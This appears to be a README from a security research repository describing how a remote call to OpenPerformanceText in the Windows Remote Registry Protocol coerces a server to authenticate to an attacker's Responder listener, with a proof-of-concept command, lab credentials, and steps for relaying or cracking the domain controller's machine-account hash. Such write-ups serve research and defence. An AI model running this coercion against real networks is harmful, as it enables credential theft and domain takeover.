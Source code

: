 # MS-RRP - Remote call to OpenPerformanceText (opnum 32)

## Summary

+ **Protocol**: [[MS-RRP]: Windows Remote Registry Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78)

+ **Protocol UUID**: 338cd001-2244-31f1-aaaa-900038001003

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\PIPE\winreg`

+ **Function name**: [`OpenPerformanceText`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/44954f6d-ef2c-4ec1-a27d-32b9b87e3c8a)

+ **Function operation number**: `32`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\winreg` and bind to the desired [`MS-RRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) protocol (with uuid `338cd001-2244-31f1-aaaa-900038001003` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-RRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\winreg` This pipe is connected to the protocol [[MS-RRP]: Windows Remote Registry Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) and allows to call RPC functions of this protocol. We will then call the remote [`OpenPerformanceText`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/44954f6d-ef2c-4ec1-a27d-32b9b87e3c8a) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
OpenPerformanceText('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t OpenPerformanceText(
   [in, unique] PREGISTRY_SERVER_NAME ServerName,
   [in] REGSAM samDesired,
   [out] PRPC_HKEY phKey
 );
```

## References

+ Documentation of protocol [MS-RRP]: Windows Remote Registry Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78

+ Documentation of function `OpenPerformanceText`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/44954f6d-ef2c-4ec1-a27d-32b9b87e3c8a